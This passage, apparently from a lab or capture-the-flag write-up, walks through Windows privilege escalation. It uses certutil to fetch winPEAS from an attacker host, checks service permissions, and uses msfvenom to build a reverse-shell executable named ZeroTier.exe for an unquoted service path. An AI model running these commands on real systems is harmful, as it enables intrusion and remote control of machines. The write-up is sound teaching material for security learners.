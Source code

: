 ```text
C:\Users\bitbucket\Documents>certutil -urlcache -split -f "http://10.6.61.45/winPEASx64.exe"
certutil -urlcache -split -f "http://10.6.61.45/winPEASx64.exe"
****  Online  ****
  000000  ...
  1d8c00
CertUtil: -URLCache command completed successfully.

C:\Users\bitbucket\Documents>.\winPEASx64.exe
```

Winpeas is a phenomenal tool that can be a game-changer if you get stuck trying to escalate privileges. The only down side is that it outputs so much information, it can be easy to overlook things. 

WinPEAS finds a potentialunquoted service path, which we may be able to abuse:

![priv.png](../assets/enterprise_assets/priv.png)

Because this service is currently stopped, we'll need to double check we have the permissions to restart it after we craft our exploit:

```text
C:\Users\bitbucket\Documents>sc.exe sdshow zerotieroneservice
sc.exe sdshow zerotieroneservice

D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;RPWPDTRC;;;S-1-5-21-2168718921-3906202695-65158103-1106)(A;;CCLCSWLOCRRC;;;IU)
```

RP is Windows-speak for the ability to restart the service.

Cool, so from here we should be able to create a reverse shell called ZeroTier.exe, which will be executed with elevated permissions when the service is restarted:

Lets use msfvenom to craft our shell:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.61.45 LPORT=8888 -f exe -o ZeroTier.exe
```

We can use Certutil to transfer the file over and confirm it's where it needs to be:

![zero.png](../assets/enterprise_assets/zero.png)
